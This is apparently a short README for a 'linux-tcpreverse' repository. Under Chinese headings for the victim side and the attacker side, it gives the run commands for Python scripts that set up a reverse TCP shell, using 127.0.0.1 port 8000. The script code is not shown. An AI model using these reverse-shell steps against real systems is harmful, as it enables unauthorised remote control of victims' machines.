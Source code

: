 # linux-tcpreverse
## 受害端反連:

python connect.py 127.0.0.1 8000

## 攻擊端開啟連線:

python reversetcp.py '' 8000

python reversetcp1.py
